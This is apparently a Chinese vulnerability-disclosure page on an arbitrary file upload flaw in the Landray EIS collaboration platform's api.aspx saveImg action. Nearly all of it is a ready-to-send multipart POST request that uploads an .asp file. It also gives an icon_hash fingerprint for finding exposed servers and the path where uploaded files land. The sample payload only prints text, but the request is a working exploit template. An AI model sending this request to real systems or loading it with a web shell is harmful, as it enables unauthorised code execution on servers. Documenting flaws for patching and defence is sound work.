

蓝凌EIS 智慧协同平台 api.aspx 任意文件上传漏洞¶
漏洞描述¶
蓝凌EIS 智慧协同平台 api.aspx 文件存在任意文件上传漏洞，攻击者通过漏洞可以上传任意文件
漏洞影响¶
蓝凌EIS 智慧协同平台
网络测绘¶
icon_hash="953405444"
漏洞复现¶
登陆页面
poc
POST /eis/service/api.aspx?action=saveImg HTTP/1.1
Host:
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0
Content-Length: 219
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarynUqjgvhmkL1dxpCV
Upgrade-Insecure-Requests: 1
------WebKitFormBoundarynUqjgvhmkL1dxpCV
Content-Disposition: form-data; name="file"filename="test.asp"
Content-Type: text/html
<% response.write("Test")%>
------WebKitFormBoundarynUqjgvhmkL1dxpCV--

/files/editor_img/xxx/xxx.asp